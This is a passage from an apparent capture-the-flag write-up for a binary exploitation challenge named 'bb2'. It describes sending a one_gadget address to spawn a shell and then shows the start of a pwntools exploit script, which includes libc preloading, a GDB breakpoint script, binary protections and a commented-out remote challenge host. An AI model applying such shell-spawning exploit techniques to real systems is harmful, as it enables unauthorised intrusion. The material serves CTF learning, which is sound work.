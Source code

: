 Then we invoke our one_gadget:

```  
rc.raw(p64(one_gadget))  
```

We then exploit the binary the same way as the first time (with the `0x00`
byte in the middle of our exploit string).

You should have a shell now!

**NOTE**: when running this locally, the exploit will segfault even though GDB
will say that `/bin/bash` was executed and forked. I haven't figured out why
this happens but since GDB says a shell was invoked and forked, I assumed it
worked and I ran it against the remote server and it indeed works.

# Full exploit code

```python  
#!/usr/bin/env python  
# -*- coding: utf-8 -*-  
# This exploit template was generated via:  
# $ pwn template bb2  
from pwn import *

# Set up pwntools for the correct architecture  
exe = context.binary = ELF('bb2')  
libc = ELF("./libc-2.28.so")  
context.terminal = "tmux splitw -v".split()

# Many built-in settings can be controlled on the command-line and show up  
# in "args".  For example, to dump all data sent/received, and disable ASLR  
# for all created processes...  
# ./exploit.py DEBUG NOASLR

env = {"LD_PRELOAD": "./libc-2.28.so"}  
#env = {}

def start(argv=[], *a, **kw):  
   '''Start the exploit against the target.'''  
   if args.GDB:  
       return gdb.debug([exe.path] + argv, env=env, gdbscript=gdbscript, *a, **kw)  
   else:  
       return process([exe.path] + argv, env=env, *a, **kw)

# Specify your GDB script here for debugging  
# GDB will be launched if the exploit is run via e.g.  
# ./exploit.py GDB  
gdbscript = '''  
tbreak main  
break *0x00000000004012cf  
continue  
'''.format(**locals())

#===========================================================  
#                    EXPLOIT GOES HERE  
#===========================================================  
# Arch:     amd64-64-little  
# RELRO:    Partial RELRO  
# Stack:    No canary found  
# NX:       NX enabled  
# PIE:      No PIE (0x400000)

io = start()  
#io = remote("host1.metaproblems.com", 5152)
```